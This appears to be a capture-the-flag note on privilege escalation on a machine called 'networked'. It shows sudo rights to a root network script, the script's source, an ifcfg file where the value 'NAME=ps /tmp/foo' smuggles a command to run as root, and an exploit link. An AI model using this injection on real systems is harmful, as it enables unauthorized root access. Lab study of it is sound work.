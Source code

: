 

[guly@networked shm]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

[guly@networked shm]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih



https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f


 You have write privileges on 
/etc/sysconfig/network-scripts/ifdown
/etc/sysconfig/network-scripts/ifdown-isdn
/etc/sysconfig/network-scripts/ifup
/etc/sysconfig/network-scripts/ifup-isdn  

